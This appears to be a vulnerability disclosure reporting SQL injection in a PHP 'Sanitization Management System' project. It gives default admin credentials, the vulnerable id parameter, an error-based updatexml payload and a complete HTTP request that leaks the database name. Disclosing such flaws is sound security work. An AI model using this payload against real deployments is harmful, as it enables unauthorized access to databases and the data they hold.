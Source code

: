 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: ep0ch

Login account: admin/admin123 (SuperAdmin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/admin/?page=services/view_service&id=

Vulnerability location: /php-sms/admin/?page=services/view_service&id=, id

dbname =sms_db,length=6

[+] Payload: /php-sms/admin/?page=services/view_service&id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id


​```sql
GET /php-sms/admin/?page=services/view_service&id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
​```

![image](https://user-images.githubusercontent.com/54017627/195977623-b958f949-210a-494b-8e25-0823176e045d.png)

